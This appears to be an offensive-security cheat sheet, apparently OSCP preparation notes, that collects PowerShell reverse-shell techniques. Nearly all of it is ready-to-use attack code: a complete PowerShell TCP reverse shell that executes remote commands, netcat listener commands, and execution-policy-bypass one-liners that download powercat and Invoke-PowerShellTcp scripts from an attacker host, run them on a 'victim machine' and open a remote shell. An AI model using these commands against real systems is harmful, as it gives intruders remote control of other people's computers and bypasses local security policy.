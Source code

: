 # PowerShell

## PowerShell

### On victim machine

```text
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

## Powercat

### Listener

Start netcat listener on your Kali

```text
nc -lvnp 9001
```

### On victim machine

```text
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/oscp/exploitation/rev_shells/powershell/powercat/powercat.ps1'));powercat -c <IP> -p <Port> -ep"
```

### Shortent

```text
powershell.exe -nop -ep bypass -c "iex (iwr http://<IP>/oscp/exploitation/rev_shells/powershell/powercat/powercat.ps1);powercat -c <IP> -p <PORT> -ep"
```

## Invoke-PowerShellTcp.ps1

### Listener

Start netcat listener on your Kali

```text
nc -lvnp 9001
```

### On victim machine

```text
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"
```

